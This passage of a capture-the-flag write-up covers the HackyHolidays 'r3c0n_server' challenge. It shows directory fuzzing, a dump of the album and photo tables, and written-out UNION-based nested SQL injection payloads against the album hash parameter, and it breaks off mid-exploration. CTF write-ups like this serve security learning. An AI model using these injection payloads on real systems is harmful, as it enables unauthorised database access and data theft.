 /r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzMyZmViYjE5NTcyYjEyNDM1YTZhMzkwYzA4ZThkM2RhLmpwZyIsImF1dGgiOiI3NmJhMDYxZDM1NmM2MjY0YTYwMDUyMTZlMTc3NmJhNiJ9
``` 

then a  url is then queried again  to fetch that image 

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzMyZmViYjE5NTcyYjEyNDM1YTZhMzkwYzA4ZThkM2RhLmpwZyIsImF1dGgiOiI3NmJhMDYxZDM1NmM2MjY0YTYwMDUyMTZlMTc3NmJhNiJ9
```
At first when we tried
After fuzzing with directory search we got /api/
{F1131456} but at this point we really didnt have ideas how to use except get  a response that we cannot visit from our IP after trying an SQL Injection on 
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=  i was like yes but here this single injection was a rabbit hole and didnt returned any useful data only 

```
Database: recon
Table: album
[3 entries]
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+

Database: recon
Table: photo
[6 entries]
+----+----------+--------------------------------------+
| id | album_id | photo                                |
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+
```

So after a bit waiting at a dead end ,in discord Adam dropped a hint {F1131463} this was from INCEPTION here this meant of  a double dream sequence and clearly for our challenge this meant for SQL Injection as double SQL injection so i tried with

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-3230' UNION+ALL+SELECT+"1'+OR+'1'='0",NULL,"test'"--+-
```
returns only two rows while 
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-3230' UNION+ALL+SELECT+"1'+OR+'0'='0",NULL,"test'"--+-
```
```